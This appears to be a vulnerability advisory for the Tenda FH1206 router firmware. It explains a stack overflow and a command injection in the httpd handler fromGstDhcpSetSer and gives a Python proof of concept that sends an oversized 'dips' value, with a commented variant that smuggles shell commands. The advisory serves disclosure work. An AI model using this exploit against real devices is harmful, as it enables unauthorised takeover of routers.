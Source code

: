 ## Overview

- Manufacturer's website: https://www.tendacn.com
- Firmware download website:
  - https://www.tendacn.com/hk/download/detail-2344.html
  - https://www.tendacn.com/us/download/detail-2344.html

## Affected version

Tenda FH1206 V1.2.0.8(8155)

## Vulnerability details

A stack overflow and command injection vulnerability exists in the `fromGstDhcpSetSer` function of program `/bin/httpd` in FH1206 V1.2.0.8(8155). The function gets the `dips` parameter from the user request, and copies content before the last `.` to the stack variable `v21` using `strncpy`.  Because the size depends on where we place the last `.`, this can be used as a stack overflow.

![image1](image/1.png)

After this, the string is spliced with a character `1`, which will eventually be executed as part of the `ifconfig` command. Because there is no filtering of strings, this leads to a command injection vulnerability.

![2](image/2.png)

## PoC

```python
import requests

IP = '192.168.244.3'

url = f"http://{IP}/goform/GstDhcpSetSer"

data = {
    "dips": "a"*0x1000 + '...'
    # "dips": ";echo pwned;ls;" + '...'
}

ret = requests.post(url,data=data)
```

Here is a screenshot of a stack overflow being successfully exploited:

![demo](image/demo.png)
